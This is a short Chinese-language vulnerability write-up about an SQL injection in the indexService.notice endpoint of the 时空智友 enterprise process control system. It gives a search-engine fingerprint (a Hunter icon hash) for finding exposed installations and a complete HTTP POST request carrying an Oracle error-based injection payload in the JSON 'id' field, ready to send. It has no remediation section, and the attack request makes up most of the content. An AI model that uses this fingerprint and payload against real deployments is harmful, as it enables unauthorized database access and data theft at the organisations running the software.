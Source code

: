 # 时空智友企业流程化管控系统indexService.notice存在sql注入漏洞

# 一、漏洞简介
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统存在SQL注入漏洞，攻击者通过恶意构造的SQL查询来执行未经授权的数据库操作。当应用程序未能正确验证、转义或过滤用户提供的输入数据时，攻击者可以利用这个漏洞来执行恶意的SQL语句，从而绕过应用程序的访问控制和执行非法操作。

# 二、影响版本
+ 时空智友企业流程化管控系统

# 三、资产测绘
+ hunter`web.icon=="2464cbce5dd2681dd4fb62d055520d78"`

# 四、漏洞复现
```plain
POST /formservice?service=indexService.notice HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json

{"id":"1' AND 6448=CTXSYS.DRITHSX.SN(6448,(CHR(113)||CHR(122)||CHR(112)||CHR(118)||CHR(113)||(SELECT (CASE WHEN (6448=6448) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(122)||CHR(118)||CHR(118)||CHR(113)))-- fKEk"}
```
